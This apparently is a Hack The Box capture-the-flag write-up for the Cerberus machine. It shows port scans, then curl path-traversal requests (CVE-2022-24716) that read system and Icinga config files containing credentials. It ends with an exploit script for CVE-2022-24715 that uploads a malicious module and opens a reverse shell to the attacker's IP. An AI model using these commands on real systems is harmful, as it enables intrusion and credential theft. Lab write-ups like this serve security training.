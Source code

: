   ![image](https://user-images.githubusercontent.com/87700008/226189420-afa389ca-2fb9-4439-8223-14edf49a43f2.png)

https://app.hackthebox.com/machines/534

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration :

### Port scanning:

Started with a quick rustscan :

    sudo rustscan -a 10.10.11.205 -- -sC -sV -T4 -vv -oN cerberus_nmap
    
After scanning I found only 1 open port '8080'.

```
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
```

In the port scan results I found a domain, running on port 8080 : "icinga.cerberus.local:8080". So I added the domain to /etc/hosts file.

Next I tried UDP scanning on the box to collect some for info & I found 3 more open ports : 53, 88, 123.

```
Nmap scan report for icinga.cerberus.local (10.10.11.205)
Host is up, received echo-reply ttl 127 (0.17s latency).
Scanned at 2023-03-20 13:10:31 EDT for 19558s
Not shown: 997 open|filtered ports
Reason: 997 no-responses
PORT    STATE SERVICE      REASON               VERSION
53/udp  open  domain       udp-response ttl 127 (generic dns response: NOTIMP)
| fingerprint-strings: 
|   NBTStat: 
|_    CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
88/udp  open  kerberos-sec udp-response         Microsoft Windows Kerberos (server time: 2023-03-20 17:25:46Z)
123/udp open  ntp          udp-response         NTP v3
| ntp-info: 
|_  receive time stamp: 2023-03-20T18:47:26
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-UDP:V=7.91%I=7%D=3/20%Time=6418970F%P=x86_64-unknown-linux-gnu%r
SF:(DNSStatusRequest,C,"\0\0\x90\x04\0\0\0\0\0\0\0\0")%r(NBTStat,32,"\x80\
SF:xf0\x80\x82\0\x01\0\0\0\0\0\0\x20CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\0\0!\
SF:0\x01");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 13s
```

### Sub-domain/directory enum:

After checking the results of port scanning I moved onto the sub directory enumeration & searched for any vulnerable sub directory/services but didn't found any as almost all of the services required authentication :

    gobuster dir -u http://icinga.cerberus.local:8080/icingaweb2 -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o cer_web -b 404,403 -k
    
![image](https://user-images.githubusercontent.com/87700008/226830002-a94919c5-1bc7-4abe-8486-8071708b35c4.png)

I then started checking the website & the services running on it. I checked what is Icinga & found that : "_Icinga is a monitoring system which checks the availability of your network resources, notifies users of outages, and generates performance data for reporting._"

![image](https://user-images.githubusercontent.com/87700008/226831317-9aea70a7-ea04-40ca-b1db-56a544a3cf79.png)

I tried for default credentials but that didn't worked, I checked HTML source code & found one JavaScript file in it but that is also not leaking any info.

Then I searched for the potential exploits available for Icinga & found this [blog](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web).
The blog explains Path Traversal vulnerability (CVE-2022-24716) that can be abused to disclose any file on the server. It can be exploited without authentication and without prior knowledge of a user account.

### Initial access:

I followed the blog & checked whether the website is vulnerable or not. So I used the below command with curl to check for response & received the response with hosts info :

    curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts
    
```
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

From the hosts results I observed the IP : "172.16.22.1" which is commonly associated with the docker container. So, it seems like the box is running the docker inside it, We can note that 172.16.22.1 is hosting the DC.

Then checked for the /etc/passwd file & found 1 user in it "matthew" :

![image](https://user-images.githubusercontent.com/87700008/226844706-2ec364eb-b0cc-4b81-ac16-869c49349beb.png)

Next I checked for the Icings web [documentation](https://icinga.com/docs/icinga-web/latest/) & checked for more configuration & authentication related files :

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/config.ini

[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"

[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"

[themes]

[authentication]
```

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini

[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "[**********]"
use_ssl = "0"

[teset1]
type = "ssh"
user = "matthew"
private_key = "/etc/icingaweb2/ssh/matthew"
```

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/roles.ini

[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"
```

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini

[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

With the gathered credentials of matthew from the resources.ini, I logged into Icinga web portal :

![image](https://user-images.githubusercontent.com/87700008/226851350-7a63d379-7e88-4981-b988-43c0414f30be.png)

As of now I have logged into the website, I can check more info about it, which I wasn't able to do at the time port sub directory enumertaion. I checked for the /about section & found that the Icinga is running on web version 2.9.2 :

![image](https://user-images.githubusercontent.com/87700008/226852899-20d37e43-dd06-4a0a-b3b5-179062e7b19e.png)

Searching for the exploits I observed that the service version is vulnerable to [CVE-2022-24715](https://nvd.nist.gov/vuln/detail/CVE-2022-24715) which affects some unknown processing of the component SSH Resource File Handler & leads to the execution of arbitrary PHP code from the administration interface. 

The best pat is that "matthew" is part of the "Administrators" group which fulfills the need to exploit the vulnerability.

### RCE:

For the RCE I was searching for the exploit and found this [Github Repo](https://github.com/JacobEbben/CVE-2022-24715). Using the script exploit.py & following the process from this [blog](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web) I got the revershell :

```
python3 exploit.py -t http://icinga.cerberus.local:8080/icingaweb2/ -I 10.10.14.80 -P 53 -u matthew -p ****************** -e /home/kali/Downloads/HTB/cerberus/private_cerbereus -x http://127.0.0.1:8080/

[INFO] Attempting to login to the Icinga Web 2 instance...
[INFO] Attempting to upload our malicious module...
[SUCCESS] The payload appears to be uploaded successfully!
[INFO] Modifying configurations...
[INFO] Attempting to enable the malicious module...
[INFO] Trying to trigger payload! Have a listener ready!
[SUCCESS] It appears that a reverse shell was started!
[INFO] Removing malicious module file...
[ERROR] An error occurred while cleaning up modified configurations!
[ALERT] Manual removal of the exploit remnants is highly recommended!
HTTPConnectionPool(host='127.0.0.1', port=8080): Read timed out. (read timeout=2)
[ALERT] In the process of exploitation, the application logging has been turned off. Log in manually to reset these settings!
```

![image](https://user-images.githubusercontent.com/87700008/226912820-11952123-32c6-4115-8490-7bf5b72fd697.png)

